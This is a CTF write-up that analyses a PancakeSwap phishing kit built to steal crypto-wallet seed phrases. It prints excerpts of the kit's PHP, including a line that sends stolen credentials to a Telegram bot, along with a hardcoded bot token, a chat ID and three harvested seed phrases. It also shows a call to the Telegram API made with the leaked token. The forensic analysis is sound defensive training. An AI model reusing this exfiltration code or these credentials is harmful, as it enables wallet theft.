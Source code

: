 ```yaml
---
layout: write_up
title: GrabThePhisher
---
```


## Introduction

With this post we will be discussing the solutions for the challenge [GrabThePhisher](https://cyberdefenders.org/blueteam-ctf-challenges/95) on Cyberdefenders.

<h4 style="padding-left:18px; padding-top:12px"> Tools </h4>
<div style="padding-left:18px;" markdown="1" id="tools-list">
There are no particular tools suggested for the completition of this challenge.

</div>

<br>

## Guide

As per the scenario explanation, we are given the phishing kit of an attacker that build up a fake [PancakeSwap](https://pancakeswap.finance/) website.

First question:

    Which wallet is used for asking the seed phrase?

Looking at the source code of `index.html` we can observe that all the wallets have, as a form `action`, a non-existent `send.php` page, except the <code class="flag">Metamask</code> wallet which points to `metamask/` -- that wallet is the flag.

<br>

    What is the file name that has the code for the phishing kit?

With a brief look at the contents of `metamask` folder we can notiche the file <code class="flag">metamask.php</code> -- it has an high chance of being the code of the phishing kit, and in fact looking at its content we can read that it sends the credentials to a Telegram bot.

<br>

    In which language was the kit written?

As per identified in the previous question, <code class="flag">PHP</code>.

<br>

    What service does the kit use to retrieve the victim's machine information?

Reading the source code of `metamask.php` we can notice the following lines:

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
$date = date("m.d.Y");
```
Thus, the service used is <code class="flag">Sypex Geo</code>.

<br>

    How many seed phrases were already collected?

Reading the source code of `metamask.php` we can notice the following line:

```php
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);
```
So we understand that the attacker stores log data of the stolen wallets inside `/log/log.txt` (starting from the root folder of the server) -- let's open it:

```txt
number edge rebuild stomach review course sphere absurd memory among drastic total
bomb stairs satisfy host barrel absorb dentist prison capital faint hedgehog worth
father also recycle embody balance concert mechanic believe owner pair muffin hockey

```
Thus, the number of stolen seed phrases is <code class="flag">3</code>.

<br>

    Write down the seed phrase of the most recent phishing incident?

As per the content read in the previous question, the last stolen seed phrase is <code class="flag">father also recycle embody balance concert mechanic believe owner pair muffin hockey</code>.

<br>

    Which medium had been used for credential dumping?

As anticipated a few questions before, the answer resides in the following lines:

```php
        $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
        file_get_contents($filename);
        $_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";;
```
Thus, the medium used for credential dumping is <code class="flag">Telegram</code>.

<br>

    What is the token for the channel?

As per the following line:

```php
$token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10";
```
The answer is <code class="flag">5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10</code>.

<br>

    What is the chat ID of the phisher's channel?

As per the following line:

```php
$id = "5442785564";
```
The answer is <code class="flag">5442785564</code>.

<br>

    What are the allies of the phish kit developer?

Again, inside the PHP source code we can read the following lines:

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */
```
Thus, the flag is <code class="flag">j1j1b1s@m3r0</code>.

<br>

    What is the full name of the Phish Actor?

This is a little trickier and requires the use of the Telegram Bot API, in particular of the [getChat](https://core.telegram.org/bots/api#getchat) method: we have the chat ID (`5442785564`) of the attacker, we don't even need to register an account since we have the token of the bot as well (`5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10`), so we just have to make an API call with the following URL:

```txt
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

The output will be:

```json
{
    "ok":true,
    "result":
    {
        "id":5442785564,
        "first_name":"Marcus",
        "last_name":"Aurelius",
        "username":"pumpkinboii",
        "type":"private",
        "active_usernames":["pumpkinboii"]
    }
}
```
Thus, the full name is <code class="flag">Marcus Aurelius</code>. Last question!

<br>

    What is the username of the Phish Actor?

Using the output of the API call made previously, the answer is <code class="flag">pumpkinboii</code>.

<br>
<br>

We've reached the end of this challenge, and, consequently, of this guide as well! I hope it was useful and that you enjoyed it!